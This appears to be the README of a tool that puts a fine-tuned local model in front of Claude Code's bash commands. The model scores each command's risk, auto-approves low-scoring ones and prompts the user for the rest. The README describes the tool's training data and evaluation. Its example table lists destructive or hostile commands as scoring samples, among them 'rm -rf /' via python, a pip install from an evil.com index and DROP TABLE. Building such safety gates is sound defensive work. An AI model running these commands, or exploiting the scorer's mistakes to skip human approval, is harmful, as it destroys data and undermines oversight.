

# agent-sash

<p align="center">
  
</p>

A Claude Code hook that uses a local LLM to auto-approve safe bash commands.

Claude Code's allowlists work for simple cases (`git status`, `ls`) but break down for commands like `python3 -c ...` or `sed` that need to be broadly allowed for legitimate use yet can do real damage depending on their arguments. The alternative -- prompting every time -- trains users to reflexively approve, which is worse than no permission check at all.

agent-sash runs a small model locally that scores each bash command's risk from 0 to 1. Safe commands flow through automatically. Risky ones still prompt you.

| Command | Score | Decision |
|---|---|---|
| `python3 -c "print(42)"` | 0.0 | allowed |
| `python3 -c "import os; os.system('rm -rf /')"` | 1.0 | prompts |
| `sed -i s/foo/bar/g config.yaml` | 0.3 | allowed |
| `sed -i s/foo/bar/g /etc/nginx/nginx.conf` | 0.7 | prompts |
| `git push origin feature-branch` | 0.4 | allowed |
| `git push --force origin main` | 0.9 | prompts |
| `psql -c "SELECT count(*) FROM users"` | 0.0 | allowed |
| `psql -c "DROP TABLE users CASCADE"` | 0.8 | prompts |
| `pip install requests` | 0.2 | allowed |
| `pip install requests --index-url http://evil.com/simple` | 0.6 | prompts |

## Quick start

> **Note:** The scoring model was [fine-tuned and evaluated](#how-it-works) specifically for this use case, but it is a language model lacking broader context about your environment and risk tolerance, and may incorrectly allow commands. Take care with what credentials and resources are accessible from the environment Claude Code runs in.

**Requirements:** macOS with Apple Silicon, Python 3.13+, [uv](https://docs.astral.sh/uv/)

### 1. Install

```bash
uv tool install agent-sash
```

### 2. Add the hook

Add this to your `~/.claude/settings.json`:

```json
{
  "hooks": {
    "PreToolUse": [
      {
        "matcher": "Bash",
        "hooks": [
          {
            "type": "command",
            "command": "agent-sash claude-hook"
          }
        ]
      }
    ]
  }
}
```

### 3. Start a new Claude Code session

That's it. The model server auto-starts on the first bash command. First run downloads the model (~1.5GB).

To pre-warm the server so there's no delay on the first command:

```bash
agent-sash start
```

To shut it down:

```bash
agent-sash stop
```

## How it works

agent-sash registers as a [PreToolUse hook](https://docs.anthropic.com/en/docs/claude-code/hooks) on Bash commands. When Claude Code is about to run a shell command, a local model scores its risk from 0.0 to 1.0. Below the threshold (0.5), the command is auto-allowed. Above it, the user is prompted. On any error, agent-sash defaults to prompting.

The model is [cwrn/Qwen3.5-2B-SHGuard-MLX-Q4](https://huggingface.co/cwrn/Qwen3.5-2B-SHGuard-MLX-Q4), a full fine-tune of [Qwen3.5-2B](https://huggingface.co/Qwen/Qwen3.5-2B) quantized to Q4 via [mlx-lm](https://github.com/ml-explore/mlx-examples/tree/main/llms/mlx_lm) (~1.0GB on disk, ~1.3GB resident).

BF16: [cwrn/Qwen3.5-2B-SHGuard](https://huggingface.co/cwrn/Qwen3.5-2B-SHGuard)

### Data pipeline

The training set is 90,000 examples (85,500 train / 4,500 validation).

**Extraction.** Shell commands were pulled from four coding-agent trajectory datasets: [Nemotron-Terminal-Corpus](https://huggingface.co/datasets/nvidia/Nemotron-Terminal-Corpus), [CoderForge](https://huggingface.co/datasets/togethercomputer/CoderForge-Preview), [SWE-rebench-openhands](https://huggingface.co/datasets/nebius/SWE-rebench-openhands-trajectories), and [Nemotron-SWE](https://huggingface.co/datasets/nvidia/Nemotron-SWE-v1). Per-source extractors normalized each format into a common schema, dropping comment-only lines, control inputs, scaffold actions, and editor payloads. Shell blocks and YAML `run:` steps from operational docs (Kubernetes, Docker, PostgreSQL, GitHub, rsync deployments) filled in live-environment coverage. ~4.6M candidate commands total.

**Deduplication.** MinHash LSH over character n-grams (3/4/5-gram, 14 buckets × 8 hashes, Jaccard threshold ~0.8) via [datatrove](https://github.com/huggingface/datatrove).

**Subsampling.** TF-IDF + MiniBatchKMeans (K=2,000) selected 250k structurally diverse commands from the deduplicated pool, with quotas proportional to cluster size and a structure bias toward pipes, redirects, heredocs, and nested interpreters.

**Teacher labeling.** [Qwen3.5-35B-A3B](https://huggingface.co/Qwen/Qwen3.5-35B-A3B) scored each command against a risk rubric (0.0 = read-only/ephemeral through 1.0 = potentially irreversible with wide blast radius) with JSON schema enforcement.

**Resampling.** The raw labeled distribution is heavily skewed toward low-risk commands. Probabilistic resampling keeps all examples scoring ≥ 0.7, applies structure multipliers at p80/p95, and oversamples the ≥ 0.4 tail to 10% of the pool.

**Synthetic augmentation.** Even after resampling, coverage of shared-environment mutations (force pushes, cluster disruption, remote sync with deletion) was thin. [data-designer](https://github.com/NVIDIA-NeMo/DataDesigner) generated synthetic commands from a scenario grid over 7 axes (environment × resource × impact × scope × access × frame × guardrail), filtered to score ≥ 0.7 with valid shell syntax. 4,143 rows accepted.

**Rewrite augmentation.** Low-risk natural commands were rewritten into high-risk variants using [data-designer](https://github.com/NVIDIA-NeMo/DataDesigner), then re-scored by the teacher. Accepted if the rewrite scored ≥ 0.6 with a delta ≥ 0.4 from the original and Jaccard similarity ≥ 0.6. 538 rewrite rows were retained.

Final composition: 57,791 natural / 538 rewrite / 4,143 synthetic.

### Training

Full fine-tune of Qwen3.5-2B. 3 epochs, effective batch size 32, learning rate 2e-5, cosine schedule, bf16. Best checkpoint at step 4,500 (eval loss 0.3116).

Base Qwen3.5-2B with the full rubric in-context scores a 0.920 Spearman vs teacher. Without the rubric, it drops to 0.610. Fine-tuning closes that gap -- the trained model matches the rubric-prompted baseline using only the raw command as input.

### Evaluation

38-command benchmark with human-specified target score ranges:

| Checkpoint | Spearman vs teacher | MSE | Within human range | Latency (p50) |
|---|---|---|---|---|
| BF16 | 0.972 | 0.0058 | 78.9% | — |
| MLX Q4 | 0.952 | 0.0074 | 73.7% | 0.69s |

